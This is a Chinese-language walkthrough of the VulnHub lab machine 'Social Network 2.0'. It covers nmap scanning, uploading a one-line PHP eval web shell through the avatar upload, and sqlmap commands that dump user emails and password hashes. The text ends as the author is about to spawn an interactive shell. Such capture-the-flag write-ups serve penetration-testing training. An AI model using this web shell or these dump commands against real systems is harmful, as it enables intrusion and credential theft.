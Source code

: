 靶机地址：[BoredHackerBlog: Social Network 2.0 ~ VulnHub](https://www.vulnhub.com/entry/boredhackerblog-social-network-20,455/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
# 或
sudo netdiscover -r 192.168.1.1/24
# q键退出
sudo nmap -p- 192.168.1.34
sudo nmap -p22,80,8000 -sV 192.168.1.34
# 22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
# 80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
# 8000/tcp open  http    BaseHTTPServer 0.3 (Python 2.7.15rc1)
```
访问Web服务看看，先访问8000端口，提示不支持GET方法。
使用BurpSuite拦截请求，尝试改成OPTIONS、POST、PUT、DELETE等方法都失败了。
但是能够看出来的是POST的响应内容和其它几个不同，说明是支持POST的。
这个服务暂时没有什么思路，再尝试访问80端口。
可以看到一个登录框，第一时间想到可以进行万能密码SQL注入和账号枚举、暴力破解。
存在SQL注入
不太好下手，有注册功能，可以先注册一个账号看看，但不要使用真实信息！切记！
注册后自动登录，可以发动态。看到其他几个用户，但看不到邮箱。
发现网站扩展名是 `.php` ，并且可以上传用户头像，尝试上传WebShell。
PHP WebShell
```php
<?php @eval($_POST["cmd"]); ?>
```
尝试上传，上传成功，右键查看源码，找到路径，通过蚁剑连接，连接成功。
除了这个漏洞之外，在搜索框输入 `'` 后提交有回显报错，可能存在SQL注入。
使用sqlmap，先将请求复制到一个文本文件 `req.txt` 中。
```Shell
sqlmap -r req.txt -p query
```
按回车跳过其它DBMS探测，按回车默认，再按回车不测试其它参数。
拿取数据
```Shell
# 查看有哪些数据库
sqlmap -r req.txt -p query --dbs
# 除默认库外还有socialnetwork
# 查看有哪些表
sqlmap -r req.txt -p query -D socialnetwork --tables
# friendship posts user_phone users
# 查看有哪些字段
sqlmap -r req.txt -p query -D socialnetwork -T users --columns
# 获取数据
sqlmap -r req.txt -p query -D socialnetwork -T users -C user_email,user_password --dump
# 全部默认回车，自动尝试破解密码
```
全部默认回车，自动尝试破解密码。
最终获取到两组账号密码分别是 `admin` 和 `testuser` 。
使用账号 `admin@localhost.com` 和 密码 `admin` 登录系统，看看管理员有没有其它功能。
但没有获取到其它更有用的信息。
回到之前通过蚁剑获取到的shell。
先进行简单的信息收集
```Shell
which nc
which bash
which gcc
which python3
uname -a
# Linux socnet2 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
lsb_release -a
# Ubuntu 18.04.1 LTS
```
先弹一个交互式的Shell